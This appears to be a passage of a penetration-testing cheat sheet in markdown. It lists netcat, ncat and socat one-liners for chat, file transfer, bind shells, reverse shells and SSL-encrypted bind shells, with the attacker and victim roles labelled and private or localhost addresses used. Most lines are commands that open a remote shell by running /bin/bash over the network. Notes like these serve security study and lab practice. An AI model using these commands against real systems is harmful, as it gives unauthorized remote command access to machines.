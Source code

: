         -   nc -nv 192.168.1.5 4444        -\> attacker

    -   **Reverse shell**

        -   nc -nlvp 4444 -e /bin/bash    -\> attacker

        -   nc -nv 192.168.1.5 4444      -\> victim

-  <h2 align="center"> Ncat </h2>

    -   **Chatting with ncat**

        -   ncat -nvlp 4444 \--allow 127.0.0.1 \--ssl

        -   ncat -nv 127.0.0.1 4444 \--ssl

    -   **Bind shell**

        -   ncat -nvlp 4444 \--exec /bin/bash \--allow 127.0.0.1 \--ssl

        -   ncat -nv 127.0.0.1 4444 \--ssl

    -   **Reverse shell**

        -   ncat -nv 127.0.0.1 4444 \--exec /bin/bash \--ssl

        -   ncat -nvlp 4444  \--allow 127.0.0.1 \--ssl

-  <h2 align="center"> Socat </h2>

    -   **Chat using nc**

        -   socat TCP4-LISTEN:4444 stdout   (listen == nc -nlvp 4444) 

        -   socat - TCP4:192.168.1.3:4444   (connect == nc -nv 192.168.1.3 4444)

    -   **File transfer**

        -   socat TCP4-LISTEN:4444,fork file:send.txt   

            -   ( == nc -nvlp 4444 \< send.txt)

            -   we have 2 action main action is to listen and minor action which is transfer file and done by (fork)

        -   socat TCP4:192.168.1.6:4444 file:received.txt,create  
	    -	 ( == nc -nv 192.168.1.6 \> received.txt)

            -   create a file once received the data

    -   **Bind shell**

        -    socat -d -d -d -TCP4:192.168.1.6:4444    ( ==nc -nv 192.168.1.6 4444)

        -   socat -d -d -d TCP4-LISTEN:4444,fork EXEC:/bin/bash   ( == nc -nlvp 4444 -e /bin/bash)

    -   **Encrypted bind shell**

        -   socat  -OPENSSL:192.168.1.6:4444,verify=0   

            -   ( verify=0 means don't verify the certificate )

        -   socat -d -d -d OPENSSL-LISTEN:4444,cert=bind\_shell.pem,verify=0,fork
            EXEC:/bin/bash   

